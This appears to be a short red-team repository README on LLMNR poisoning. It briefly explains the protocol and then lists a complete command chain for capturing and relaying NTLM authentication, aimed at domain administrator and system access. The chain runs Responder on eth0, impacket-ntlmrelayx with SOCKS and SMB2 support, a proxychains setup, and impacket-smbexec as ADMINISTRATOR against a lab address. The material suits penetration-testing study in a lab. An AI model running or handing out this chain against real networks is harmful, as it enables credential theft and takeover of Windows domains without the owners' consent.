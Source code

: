 LLMNR poisoning:
![llmnr-attack](https://github.com/ParastouRazi/Red-Team-Attacks/assets/85788536/fced396c-ea0c-4c14-9384-d0ea401c5678)

LLMNR poisoning is a man-in-the-middle (MITM) attack that exploits this protocol. An attacker sends out a fake LLMNR response pretending to be from the computer with which the name was requested.


LLMNR stands for Link-Local Multicast Name Resolution and is used by Windows to resolve the names of neighbouring computers without using a domain name system (DNS) server. LLMNR works by sending out multicast queries over local networks asking if any specific computers with certain names exist and whether any have responded with their IP addresses when queried by LLMNR.


Goal :We want to use LLMNR poisoning and get domain administrator and system user access.

Commands:
sudo nano /etc/responder/Responder.conf

sudo responder -I eth0 -v

sudo impacket-ntlmrelayx -socks -smb2support -tf pari.txt

sudo nano /etc/proxychains4.conf

socks5 127.0.0.1 1080

sudo proxychains4 -q impacket-smbexec PARASTOO/ADMINISTRATOR:administrator@192.168.1.126
https://www.youtube.com/watch?v=NBYbhvTtSb0

https://github.com/ParastouRazi/Red-Team-Attacks/assets/85788536/5d4db7cd-209a-463d-8207-54a5d002bd7f

